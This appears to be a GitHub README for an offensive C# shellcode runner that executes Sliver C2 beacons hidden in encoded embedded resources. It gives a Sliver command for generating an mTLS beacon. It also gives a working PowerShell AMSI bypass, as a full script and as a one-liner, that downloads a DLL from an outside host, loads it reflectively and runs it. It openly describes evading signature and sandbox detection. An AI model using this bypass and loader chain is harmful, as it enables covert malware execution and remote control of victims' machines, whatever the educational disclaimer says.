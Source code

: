# Sliver_C#_Runner_Caesar

There is nothing special going on here; these are super basic methods.

## Introduction
This is a Digital Honk Project that illustrates cybersecurity techniques within Windows environments, showcasing shellcode execution from an embedded resource. A standout feature is its use of encoded payloads, which focus on evading detection through custom encoding schemes and AMSI bypass techniques. As the creator of the Payload-Encoder and an advocate for educational purposes, this project aims to deepen the understanding of cyber security mechanisms and ethical hacking practices. This is modified code from the OSEP course to execute Sliver Payloads.

## Key Features
- Shellcode execution from embedded resources in .NET applications.
- Custom payload encoding schemes are used to evade signature-based detection.
- Implementation of AMSI bypass techniques for unrestricted payload execution.
- Demonstrates evasion strategies to bypass sandbox detections.

## Getting Started

## Prerequisites
- A Windows environment (Windows 10/11 recommended).
- .NET Framework 4.7.2 or later.
- Visual Studio 2019 or later for development and compilation.

## Setup
1. **Generate Payload**: Use the Sliver C2 framework to generate your shellcode payload:
```
sliver> generate --mtls 192.168.45.221:8888 --os windows --arch amd64 --format shellcode --save beacon.bin
```
2. **Encode Payload**: With the Payload-Encoder tool, encode the `beacon.bin` file for embedding within the project:
The process is detailed at Payload-Encoder.
3. **Embed and Compile**: Include the encoded payload (`honk.user.dat`) as an embedded resource and compile the project using Visual Studio.

## Execution with AMSI Bypass
To execute the payload with an AMSI bypass, use the following PowerShell script, ensuring your environment permits script execution:
```powershell
try{
 [Ref].Assembly.GetTypes() | ? { $_.Name -like "*iUtils" } | % {
     ($c = $_).GetFields('NonPublic,Static') | ? { $_.Name -like "*Context" } | % {
         $g = $_.GetValue($null);
         [IntPtr]$ptr = $g;
         [Int32[]]$buf = @(0);
         [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
     }
 };
 $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.233.137/honk.dll');
 $assem = [System.Reflection.Assembly]::Load($data);
 [honk.Program]::appleBits()
} catch {
 Write-Error "An error occurred: $_"
} finally {
 Write-Host "Press Enter to exit...";
 [Console]::ReadLine()
}
```

One Liner:
```powershell
try{[Ref].Assembly.GetTypes()|?{$_.Name -like "*iUtils"}|%{($c=$_).GetFields('NonPublic,Static')|?{$_.Name -like "*Context"}|%{$g=$_.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)}}; $data=(New-Object System.Net.WebClient).DownloadData('http://192.168.233.137/honk.dll'); $assem=[System.Reflection.Assembly]::Load($data); [honk.Program]::appleBits()}catch{Write-Error "An error occurred: $_"}finally{Write-Host "Press Enter to exit...";[Console]::ReadLine()}
```

## Disclaimer

This project is designed for educational and ethical hacking purposes only. Ensure you have explicit authorization to test and use these techniques on any system. The creator and contributors of the Digital Honk Project assume no responsibility for misuse or damages caused by this project.

## License

This project is licensed under the MIT License - see the LICENSE file for details.
Acknowledgments

    Special thanks to the Sliver C2 framework for the payload generation capabilities.
    Gratitude to the cybersecurity community for the continuous exchange of knowledge and ethical hacking practices.
